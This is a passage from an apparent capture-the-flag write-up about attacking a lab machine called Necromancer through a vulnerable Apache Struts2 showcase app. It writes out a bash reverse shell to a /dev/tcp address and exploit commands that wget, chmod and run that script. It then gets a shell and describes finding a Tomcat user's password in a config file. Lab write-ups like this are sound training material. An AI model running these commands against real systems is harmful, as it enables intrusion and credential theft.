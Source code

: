 Now I tried sending numerous different reverse shells back to us, but none worked. Reading a little bit online it seemed that this was a Java runtime issue with the piping in the commands. So the simplest solution was to create a bash script containing the payload, upload it in **Necromancer** and then execute it there.

Since we already have port **4444** tunneled we will create a bash file called `rev.sh` containing this code `bash -i >& /dev/tcp/192.168.56.1/4444 0>&1` and setup a simple HTTP server on the current working dir in the attacking machine with `python -m SimpleHTTPServer 4444`.

Now we send ```python
python 42324.py http://192.168.56.102:8080/struts2_2.3.15.1-showcase/integration/saveGangster.action "wget http://192.168.57.4:4444/rev.sh -O /tmp/rev.sh"```

To upload the shell to **Necromancer** and then ```python python 42324.py http://192.168.56.102:8080/struts2_2.3.15.1-showcase/integration/saveGangster.action "chmod +x /tmp/rev.sh"``` to set it to executable and then ```python python 42324.py http://192.168.56.102:8080/struts2_2.3.15.1-showcase/integration/saveGangster.action "/tmp/rev.sh"``` to execute it.

Now in our listener we have 

![](/assets/images/wintermute/23.png)

## Exploitation

We succesfully have a shell as the user **ta**.

After looking around in the system we stumble upon a file in `/home/ta/ai-guide.txt` revealing the location of the Tomcat install

![](/assets/images/wintermute/24.png)


Enumerating that directory we find a file at `/usr/local/tomcat/conf/tomcat-users.xml`

There is an **HTML-encoded** password for the user **lady3jane**. Pasting this into Burp reveals the password
